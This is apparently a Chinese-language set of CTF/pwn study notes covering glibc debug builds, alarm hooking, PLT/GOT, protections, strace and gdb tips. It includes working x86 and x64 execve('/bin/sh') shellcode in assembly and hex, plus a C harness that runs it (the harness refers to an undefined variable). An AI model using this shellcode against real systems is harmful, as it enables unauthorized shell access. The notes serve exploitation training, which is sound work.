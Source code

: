 ##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcodes/
[linux pwn 入门教程 i春秋](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)
[格式化字符串](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=43624&ctid=157)
[调整栈帧的技巧](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42534&ctid=157)
[PIE无关](https://bbs.ichunqiu.com/thread-43627-1-1.html)
```
## 编译带debug symbol的glibc
### download
[glibc](http://gnu.mirrors.pair.com/libc/)
### make
解压后，要创建额外的build目录，直接在glibc目录下创建了build目录`mkdir build && cd build`，使用下面的命令进行编译,
`CFLAGS` makefile编译选项
`-g`:包含调试信息是OS native format
`-ggdb`: 供gdb使用的调试信息
`-g3`: 产生额外的debug信息
`-gdwarf-4`: 产生dwarf格式的debug info，产生 `.debug_info`段
`-Og` 启用不影响调试的编译优化
`--prefix` 安装路径
`--disable-sanity-checks` 关闭适应性检查。可能与GNU/Linux行为不一致


```sh
CFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" CXXFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" ../configure --prefix=/root/app/glibc22364 --disable-werror 
``` 
### use
运行前需要加环境变量,
example:`export LD_LIBRARY_PATH=/root/app/glibc22364/lib/

### 排错
`loc1@GLIBC_2.17' can't be versioned to common symbol 'loc1'` 这是一个bug，在[这里](https://stackoverflow.com/questions/51279418/how-to-build-older-version-of-glibc)可以找到解决方法。

## 干掉alarm
很多题目都有alarm函数防止Dos攻击，超过指定的时候后程序就会退出，不便于debug，通常有几种干掉alarm的方法：
- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD
```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```
编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got
![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令`push 0`,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的

## shellcode
### x86 
```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```
20bytes:
```x86asm
  xor ecx,ecx 
  cdq
  push ecx 
  push 0x68732f2f 
  push 0x6e69622f 
  mov ebx,esp 
  mov al,0xb 
  int 0x80
```
### x64
24bytes:
```x64asm 
global _start
section .text
_start:
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
	push rdx
	push rdi
	push rsp
	pop rsi
	syscall
```
22bytes:
```x64asm
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
  push rdx
	pop rsi
	syscall
```

```c
#include <stdio.h>
#include <string.h>
char code24[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
char code22[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code24));
    (*(void(*)()) code)();
    return 0;
}
```
### 制作方法
linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组
相关工具
- https://github.com/Neetx/Shellcode-Extractor
从elf提取shellcode



## return to Dynamic resolver
return to lib without information leakage

## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## strace
strace可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败
```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```
## LD_PRELOAD、 LD_SHOW_AUXV
- LD_PRELOAD可以指定一个或多个共享库文件，linux加载器`ld-linux`会先于glibc加载LD_PRELOAD指定的库。  
用途：HOOK掉alarm。  
为了避免用于恶意攻击，在ruid !=euid的情况下加载器是不会使用LD_PRELOAD 进行预加载。
- `LD_SHOW_AUXV=1 ./pwnme` 用于调试
